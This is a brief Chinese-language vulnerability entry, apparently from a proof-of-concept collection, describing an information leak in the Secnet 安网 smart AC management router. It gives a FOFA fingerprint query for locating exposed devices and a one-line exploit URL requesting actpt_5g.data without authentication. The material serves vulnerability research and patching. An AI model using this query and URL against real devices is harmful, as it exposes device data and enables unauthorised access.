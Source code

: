 ## Secnet安网 智能AC管理系统 actpt_5g 信息泄露

## fofa
```
title="安网-智能路由系统" || header="HTTPD_ac 1.0"
```
## poc
```
http://xxxxx/actpt_5g.data
```

![069c247466403f3336550f21bcea0ff4](../../images/205a328b-f4cf-41a6-8cc0-c8d74db79876.png)

![e06692e5a2926d80686685b5e8fec3c4](../../images/9caa2d80-b573-4638-b500-9bd87f642c51.png)

